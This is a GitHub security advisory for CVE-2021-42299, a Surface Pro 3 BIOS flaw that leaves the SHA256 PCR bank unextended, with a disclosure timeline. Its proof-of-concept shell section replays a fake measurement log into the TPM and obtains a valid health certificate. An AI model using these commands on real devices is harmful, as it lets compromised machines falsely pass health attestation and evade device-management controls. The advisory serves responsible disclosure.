 ```yaml
---
title: 'Surface Pro 3: BIOS False Health Attestation (TPM Carte Blanche)'
published: '2021-10-18T20:16:30Z'
severity: High
ghsa_id: GHSA-c4qg-jj77-rcc3
cve_id: CVE-2021-42299
weaknesses: []
products:
- ecosystem: n/a
  package_name: Surface Pro 3 BIOS
  affected_versions: 3.11.2550
  patched_versions: ''
cvss: null
credits:
- github_user_id: chrisfenner
  name: Chris Fenner
  avatar: https://avatars.githubusercontent.com/u/61842497?s=40&v=4
---
```


### Summary
On affected Surface Pro 3 BIOS versions, when both SHA1 and SHA256 PCR banks are enabled, the SHA256 bank is not extended. This allows an adversary to falsify TPM-based health attestation by extending fake measurements into the TPM and getting a valid quote over the fake measurements.

### Severity
HIGH - An adversary running on an affected BIOS can falsely attest any desired health attestation it wants, including a state corresponding to a "fixed" BIOS.

### Proof of Concept
```shell
# Extend the fake log
sudo dhatool --log=path/to/log/file --bank=sha256 replay
# Self test
sudo attest-tool --log=path/to/log/file self-test
# Get AIK cert
sudo akcli
# Fetch a health cert
sudo dhatool --log=path/to/log/file --bank=sha256 --aik=path/to/aik getcert
# Validate the health cert against DHA with the current time as a nonce
NONCE=$(echo "obase=16; $(date +%s%N)" | bc); echo ${NONCE}
# normally the MDM generates a nonce, asks the device for claims and then validates against DHA
sudo dhatool --cert-path/to/healthcert --bank=sha256 --aik=path/to/aik --nonce=$NONCE validate
```

### Further Analysis
For more information, see https://github.com/google/security-research/blob/master/pocs/bios/tpm-carte-blanche/readme.md

### Timeline
**Date reported**: To Microsoft: 2021-05-26; to AMI: 2021-05-26; to TianoCore: 2021-07-19
**Date fixed**: In TianoCore: [2021-07-29](https://edk2.groups.io/g/devel/message/78382)
**Date disclosed**: 2021-10-18